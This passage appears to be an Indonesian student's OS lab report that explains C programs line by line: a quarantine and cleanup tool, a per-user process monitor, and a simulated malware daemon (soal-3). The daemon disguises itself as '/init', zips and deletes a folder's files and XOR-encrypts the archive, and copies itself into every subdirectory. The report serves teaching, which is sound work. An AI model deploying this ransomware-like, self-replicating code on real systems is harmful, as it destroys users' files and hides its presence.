- `if (kill(pid, SIGTERM) == 0)` → Mengirim sinyal SIGTERM ke PID tersebut. Jika berhasil (mengembalikan 0), proses berhasil dimatikan.
- `char pid_str[16];` → Buffer sementara untuk menyimpan PID dalam bentuk string.
- `snprintf(pid_str, sizeof(pid_str), "%d", pid);` → Mengubah pid menjadi string agar bisa dicatat dalam log.
- `log_activity("shutdown", pid_str);` → Mencatat aktivitas ke dalam log dengan kategori "shutdown" dan PID dari proses yang dimatikan.
- `count++;` → Menambah jumlah proses yang berhasil dimatikan.
- `pclose(fp);` → Menutup stream setelah proses popen() selesai dibaca.
- `if (count == 0)` → Jika tidak ada proses yang ditemukan dan dimatikan, akan mencetak ke layar bahwa tidak ada proses aktif.
- `else printf("Shutdown %d daemon process(es).\n", count);` → Jika ada proses yang berhasil dimatikan, mencetak jumlahnya ke layar.

##### Tampilan PID sebelum di --shutdown


##### Output 


#### F. Membuat error handling sederhana untuk mencegah penggunaan yang salah pada program tersebut.

```C
if (argc != 2) {
    fprintf(stderr, "[ERROR] Invalid usage.\n");
    fprintf(stderr, "Usage:\n");
    fprintf(stderr, "  %s --decrypt\n", argv[0]);
    fprintf(stderr, "  %s --shutdown\n", argv[0]);
    fprintf(stderr, "  %s --quarantine\n", argv[0]);
    fprintf(stderr, "  %s --return\n", argv[0]);
    fprintf(stderr, "  %s --eradicate\n", argv[0]);
    return 1;
}

if (strcmp(argv[1], "--decrypt") == 0)
    start_decryption();
else if (strcmp(argv[1], "--shutdown") == 0)
    shutdown_daemon();
else if (strcmp(argv[1], "--quarantine") == 0)
    quarantine_files();
else if (strcmp(argv[1], "--return") == 0)
    return_files();
else if (strcmp(argv[1], "--eradicate") == 0)
    eradicate_quarantine();
else {
    fprintf(stderr, "[ERROR] Unknown option: %s\n", argv[1]);
    return 1;
}
```

- `if (argc != 2)` → Mengecek apakah jumlah argumen yang diberikan saat menjalankan program adalah tepat dua. Argumen pertama (argv[0]) adalah nama program itu sendiri, dan argumen kedua (argv[1]) adalah opsi perintah yang valid.
- `fprintf(stderr, "[ERROR] Invalid usage.\n");` → Jika argumen tidak sesuai, maka pesan kesalahan akan dicetak ke stderr agar pengguna tahu bahwa cara penggunaan program salah.
- `fprintf(stderr, "Usage: ...");` → Menampilkan petunjuk lengkap tentang bagaimana cara menggunakan program dengan benar, termasuk semua opsi yang valid: --decrypt, --shutdown, --quarantine, --return, --eradicate.
- `return 1;` → Mengakhiri program dengan status error (1) jika argumen yang diberikan tidak valid jumlahnya.
- `if (strcmp(argv[1], "--decrypt") == 0) ... else if (...) ... else { ... }` → Mengecek string argv[1] untuk mencocokkan dengan perintah yang valid. Jika cocok, akan dijalankan fungsi sesuai perintah tersebut.
- `else { fprintf(stderr, "[ERROR] Unknown option: %s\n", argv[1]); return 1; }` → Jika string argumen argv[1] tidak cocok dengan semua opsi yang dikenali, maka program akan mencetak pesan error ke stderr bahwa opsi tidak dikenali, lalu keluar dengan status 1.

##### Output 


#### G. Menambahkan log dari setiap penggunaan program ini dan menyimpannya ke dalam file bernama activity.log.

```C
void log_activity(const char *type, const char *message) {
    FILE *log = fopen(LOG_FILE, "a");
    if (!log) return;

    time_t now = time(NULL);
    struct tm *t = localtime(&now);
    fprintf(log, "[%02d-%02d-%04d][%02d:%02d:%02d] - ",
            t->tm_mday, t->tm_mon + 1, t->tm_year + 1900,
            t->tm_hour, t->tm_min, t->tm_sec);

    if (strcmp(type, "decrypt") == 0)
        fprintf(log, "Successfully started decryption process with PID %s.\n", message);
    else if (strcmp(type, "shutdown") == 0)
        fprintf(log, "Successfully shut off decryption process with PID %s.\n", message);
    else if (strcmp(type, "quarantine") == 0)
        fprintf(log, "%s - Successfully moved to quarantine directory.\n", message);
    else if (strcmp(type, "return") == 0)
        fprintf(log, "%s - Successfully returned to starter kit directory.\n", message);
    else if (strcmp(type, "eradicate") == 0)
        fprintf(log, "%s - Successfully deleted.\n", message);
    else if (strcmp(type, "decode") == 0)
        fprintf(log, "Decoded: %s\n", message);
    else
        fprintf(log, "%s\n", message);

    fclose(log);
}
```

- `FILE *log = fopen(LOG_FILE, "a");` → Membuka file log (activity.log) dalam mode append, sehingga setiap entri baru akan ditambahkan di akhir file. Jika file gagal dibuka (misalnya tidak ada izin), maka fungsi langsung return.
- `time_t now = time(NULL);` → Mengambil waktu saat ini dalam bentuk timestamp (time_t) dari sistem.
- `struct tm *t = localtime(&now);` → Mengonversi waktu saat ini (now) menjadi struktur waktu lokal (struct tm) yang dapat digunakan untuk menampilkan tanggal dan jam secara terformat.
- `fprintf(log, "[%02d-%02d-%04d][%02d:%02d:%02d] - ", ...)` → Menuliskan cap waktu (timestamp) dalam format [dd-mm-YYYY][HH:MM:SS] sebagai awal dari setiap entri log.
- `if (strcmp(type, "decrypt") == 0)` → Mengecek jenis log berdasarkan argumen type. Jika "decrypt", maka dicatat bahwa proses dekripsi telah dimulai, dengan menyertakan PID dari proses (diberikan melalui message).
- `else if (strcmp(type, "shutdown") == 0)` → Jika type adalah "shutdown", maka dicatat bahwa proses dekripsi telah dihentikan (shutdown), disertai dengan PID-nya.
- `else if (strcmp(type, "quarantine") == 0)` → Jika type adalah "quarantine", maka dicatat bahwa file (nama file di message) telah berhasil dipindahkan ke folder karantina.
- `else if (strcmp(type, "return") == 0)` → Jika type adalah "return", maka file telah dipindahkan kembali dari karantina ke folder starter kit.
- `else if (strcmp(type, "eradicate") == 0)` → Jika type adalah "eradicate", maka file telah dihapus secara permanen.
- `else if (strcmp(type, "decode") == 0)` → Jika type adalah "decode", maka dicatat hasil dekripsi (biasanya nama file asli setelah didekode dari Base64).
- `else fprintf(log, "%s\n", message);` → Jika tipe log tidak dikenali, maka hanya mencetak message apa adanya.
- `fclose(log);` → Menutup file log setelah entri selesai ditulis.

##### Output 


# soal-3
**Dikerjakan Oleh Mutiara Diva Jaladitha (5027241083)**

## Fungsi daemonize()
```
void daemonize() {
    pid_t pid = fork();                // buat child process
    if (pid < 0) exit(EXIT_FAILURE);   // error fork
    if (pid > 0) exit(EXIT_SUCCESS);   // parent keluar
```
- fork proses → child lanjut, parent keluar.
```
    if (setsid() < 0) exit(EXIT_FAILURE);  // child bikin session baru → detached dari terminal
```
- Bikin session ID baru, child jadi session leader.
```
    pid = fork();
    if (pid < 0) exit(EXIT_FAILURE);
    if (pid > 0) exit(EXIT_SUCCESS);
```
- fork lagi → child keluar, grandchild lanjut (jadi daemon beneran, tanpa session leader)
```
    umask(0);               // set permission mask file/direktori → full akses
    chdir("/");             // pindah direktori kerja ke root
```
```
    close(STDIN_FILENO);    // tutup input
    close(STDOUT_FILENO);   // tutup output
    close(STDERR_FILENO);   // tutup error
}
```
- Tutup descriptor supaya nggak ganggu terminal.

## XOR Encryption
```
void xor_encrypt(const char *filename, int key) {
    FILE *fp = fopen(filename, "rb+"); // buka file read-write binary
    if (!fp) return;
```
- Buka file, kalau gagal → keluar.
```
    fseek(fp, 0, SEEK_END);
    long size = ftell(fp);
    rewind(fp);
```
- Pindah ke akhir file buat tau ukurannya, lalu balik ke awal.
```
    char *buffer = malloc(size);
    fread(buffer, 1, size, fp);
```
- Alokasi buffer & baca isi file ke memori.
```
    for (long i = 0; i < size; i++) {
        buffer[i] ^= key;
    }
```
- XOR semua byte dengan key.
```
    rewind(fp);
    fwrite(buffer, 1, size, fp);
    fclose(fp);
    free(buffer);
}
```
- Tulis ulang hasil XOR, tutup file, free buffer.

## zip_and_encrypt()
```
DIR *d;
struct dirent *dir;
d = opendir(".");
if (!d) return;
```
- Buka direktori saat ini.
```
char *args[256];
int arg_idx = 0;
args[arg_idx++] = "zip";
args[arg_idx++] = "archive.zip";
```
- Siapkan argumen command `zip`.
```
char exe_name[256];
ssize_t len = readlink("/proc/self/exe", exe_name, sizeof(exe_name) - 1);
if (len != -1) exe_name[len] = '\0';
```
- Ambil path binary diri sendiri.
```
while ((dir = readdir(d)) != NULL) {
    if (dir->d_type == DT_REG) {
        if (strcmp(dir->d_name, "archive.zip") == 0) continue;
        if (strcmp(dir->d_name, exe_name) == 0) continue;
        args[arg_idx++] = strdup(dir->d_name);
    }
}
```
- Baca file reguler di folder ini kecuali archive.zip & file ini.
```
closedir(d);
if (arg_idx == 2) return;
args[arg_idx] = NULL;
```
- Kalau nggak ada file selain `archive.zip`, keluar.
```
pid_t pid = fork();
if (pid == 0) {
    execvp("zip", args);
    exit(EXIT_FAILURE);
} else {
    wait(NULL);
}
```
- Fork buat eksekusi `zip` via execvp.
```
for (int i = 2; i < arg_idx; i++) free(args[i]);
```
- Free memory hasil `strdup`.
```
d = opendir(".");
if (!d) return;
while ((dir = readdir(d)) != NULL) {
    if (dir->d_type == DT_REG) {
        if (strcmp(dir->d_name, "archive.zip") == 0) continue;
        if (strcmp(dir->d_name, exe_name) == 0) continue;
        remove(dir->d_name);
    }
}
closedir(d);
```
- Hapus semua file setelah di-zip.
```
int key = (int)time(NULL) % 256;
xor_encrypt("archive.zip", key);
```
- Encrypt zip-nya pakai XOR.

## replicate_self()
```
DIR *dir = opendir(dirpath);
if (!dir) return;
```
- Buka direktori target.
```
struct dirent *entry;
char fullpath[PATH_MAX];
char src_path[PATH_MAX];
ssize_t len = readlink("/proc/self/exe", src_path, sizeof(src_path) - 1);
if (len == -1) {
    closedir(dir);
    return;
}
src_path[len] = '\0';
```
- Ambil path binary sendiri.
```
const char *binary_name = strrchr(src_path, '/');
binary_name = binary_name ? binary_name + 1 : src_path;
```
- Ambil nama file binary saja.
```
while ((entry = readdir(dir)) != NULL) {
    if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) continue;
    snprintf(fullpath, sizeof(fullpath), "%s/%s", dirpath, entry->d_name);
    struct stat st;
    if (stat(fullpath, &st) == -1) continue;
    if (S_ISDIR(st.st_mode)) {
        replicate_self(fullpath);
    }
}
```
- Rekursif masuk folder dalam.
```
char dest_path[PATH_MAX];
snprintf(dest_path, sizeof(dest_path), "%s/%s", dirpath, binary_name);
```
- Path file tujuan.
```
FILE *src = fopen(src_path, "rb");
FILE *dest = fopen(dest_path, "wb");
if (!src || !dest) {
    if (src) fclose(src);
    if (dest) fclose(dest);
    closedir(dir);
    return;
}
```
- Buka source & target file.
```
char buffer[4096];
size_t n;
while ((n = fread(buffer, 1, sizeof(buffer), src)) > 0) {
    fwrite(buffer, 1, n, dest);
}
fclose(src);
fclose(dest);
closedir(dir);
}
```
- Copy file byte-per-byte.

## random_hash()
```
static char charset[] = "0123456789abcdef";
static char hash[65];
for (int i = 0; i < 64; i++) {
    hash[i] = charset[rand() % 16];
}
hash[64] = '\0';
return hash;
```
- Bikin string hash acak 64 karakter heksadesimal.

## miner_process()
```
prctl(PR_SET_PDEATHSIG, SIGTERM);
```
- Kalau parent mati, anak ikut mati.
```
char procname[64];
snprintf(procname, sizeof(procname), "mine-crafter-%d", id);
prctl(PR_SET_NAME, procname);
```
- Set nama proses.
```
if (argc > 0) {
    size_t len = 64;
    memset(argv[0], 0, len);
    strncpy(argv[0], procname, len);
}
```
- Ubah `argv[0]` biar ps/top outputnya berubah.
```
srand(time(NULL) ^ (getpid() + id));
```
- Seed random unik tiap miner.
```
while (1) {
    int delay = (rand() % 28) + 3;
    sleep(delay);
```
- Delay acak antar log.
```
    time_t now = time(NULL);
    struct tm *t = localtime(&now);
```
- Ambil waktu lokal.
```
    char logline[128];
    snprintf(logline, sizeof(logline),
             "[%04d-%02d-%02d %02d:%02d:%02d][Miner %02d] %s\n",
             t->tm_year + 1900, t->tm_mon + 1, t->tm_mday,
             t->tm_hour, t->tm_min, t->tm_sec, id, random_hash());
```
- Format log.
```
    FILE *log = fopen("/tmp/.miner.log", "a");
    if (log) {
        fputs(logline, log);
        fclose(log);
    }
}
```
- Simpan log ke file.

## spawn_encryptor(), spawn_trojan(), spawn_rodok()
- Fork child → Set nama proses → Loop task

## main()
- Panggil `daemonize()`
- Rename process jadi `/init`
- Spawn 3 malware component
- Loop forever sleep

# soal-4
**Dikerjakan Oleh Mutiara Diva Jaladitha (5027241083)**

## Header & Macro Definition
```
#define _GNU_SOURCE
```
- Macro untuk mengaktifkan fitur ekstensi GNU dalam glibc. Diperlukan untuk beberapa fungsi atau struct spesifik GNU.
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dirent.h>
#include <ctype.h>
#include <unistd.h>
#include <pwd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <time.h>
#include <signal.h>
```
Header file standar untuk operasi:
- I/O (stdio.h)
- Memory & exit `(stdlib.h)`
- String handling `(string.h)`
- Directory scan `(dirent.h)`
- Karakter check `(ctype.h)`
- Proses `(unistd.h)`
- User info `(pwd.h)`
- Type definisi `(sys/types.h)`
- File status `(sys/stat.h)`
- File control `(fcntl.h)`
- Waktu `(time.h)`
- Signal handling `(signal.h)`
```
#define PROC_PATH "/proc"
#define LOGFILE "debugmon.log"
```
Macro constant:
- `PROC_PATH` → path folder virtual `/proc` di Linux (proses runtime)
- `LOGFILE` → file untuk mencatat log aktivitas

## Fungsi: cari_uid
```
uid_t cari_uid(const char *nama_user) {
    struct passwd *pw = getpwnam(nama_user);
```
- Dapatkan struct `passwd` dari username yang diberikan.
- `getpwnam` cari user info di `/etc/passwd`
```
    if (!pw) {
        fprintf(stderr, "User '%s' tidak ditemukan.\n", nama_user);
        exit(EXIT_FAILURE);
    }
```
- Kalau user tidak ditemukan → cetak ke `stderr` dan keluar program.
```
    return pw->pw_uid;
}
```
- Return UID dari user tersebut.

## Fungsi: hanya_angka
```
int hanya_angka(const char *str) {
    while (*str) {
        if (!isdigit(*str)) return 0;
        str++;
    }
    return 1;
}
```
- Cek apakah string hanya berisi digit angka.
- Return `1` kalau benar, `0` kalau ada karakter non-digit.

## Fungsi: tulis_log
```
void tulis_log(const char *proc_name, const char *status) {
    FILE *logfile = fopen(LOGFILE, "a");
    if (!logfile) return;
```
- Buka `debugmon.log` dengan mode append.
- Kalau gagal buka file → langsung return.
```
    time_t waktu = time(NULL);
    struct tm *waktu_local = localtime(&waktu);
```
- Ambil waktu saat ini, lalu ubah jadi waktu lokal.
```
    char timestamp[64];
    strftime(timestamp, sizeof(timestamp), "[%d:%m:%Y]-[%H:%M:%S]", waktu_local);
```
- Format timestamp jadi string seperti `[16:04:2025]-[20:00:23]`
```
    fprintf(logfile, "%s_%s_%s\n", timestamp, proc_name, status);
    fclose(logfile);
}
```
- Tulis timestamp, nama proses, dan status ke file log.
- Tutup file setelah selesai.

## Fungsi: jadikan_daemon
```
void jadikan_daemon() {
    pid_t pid = fork();
    if (pid < 0) exit(EXIT_FAILURE);
    if (pid > 0) exit(EXIT_SUCCESS);
```
- Lakukan `fork()`
- Proses induk keluar
- Proses anak lanjut sebagai daemon
```
    umask(0);
    setsid();
```
- Set `umask` jadi `0` (izin file default)
- `setsid()` buat session baru (detach dari terminal)
```
    if (chdir("/home/mutiaradiva/soal_4/") < 0) exit(EXIT_FAILURE);
```
- Ubah working directory daemon ke path tertentu.
```
    close(STDIN_FILENO);
    close(STDOUT_FILENO);
    close(STDERR_FILENO);
```
- Tutup stdin, stdout, stderr (detach dari terminal)
```
    open("/dev/null", O_RDONLY);
    open("/dev/null", O_WRONLY);
    open("/dev/null", O_RDWR);
}
```
- Redirect stdin, stdout, stderr ke `/dev/null`

### Output di log


## Fungsi: pantau_proses_user
```
void pantau_proses_user(const char *user, int mode_fail, const char *mode_nama)
```
- Monitor proses milik `user` tertentu.
- `mode_fail` menentukan apakah akan kill proses selain `debugmon`.
- `mode_nama` untuk nama log.
- Langkah di dalam while(1):
1. Buka `/proc`
2. Loop directory entry
3. Cek apakah folder itu PID (pakai `hanya_angka`)
4. Baca UID proses dari `/proc/[pid]/status`
5. Kalau UID sama:
- Baca nama proses (`/proc/[pid]/comm`)
- Kalau `debugmon` → log RUNNING
- Kalau bukan, dan `mode_fail` aktif:
  - Kill proses

Akhir
```
sleep(5);
```
- Delay 5 detik antar loop

## Fungsi: hentikan_daemon
- Cari semua proses `debugmon` milik user tertentu.
- Cek argumen command-line untuk memastikan prosesnya daemon monitor.
- Kill proses tersebut dengan `SIGTERM`
- Catat ke log

### Output di log


## Fungsi main
- Command line argument
```
if (argc != 3) {
  printf("Pemakaian: ... \n");
  return EXIT_FAILURE;
}
```
- Validasi jumlah argumen

Command mode:
- `list` → tampilkan semua proses milik user: pid, nama, mem

  ### Output di log


- `daemon` → jalankan daemon monitor mode normal
- `fail` → jalankan daemon monitor mode kill

### Output di log


- `stop` → hentikan daemon debugmon user
- `revert` → sama seperti stop tapi log-nya revert

### Output di log

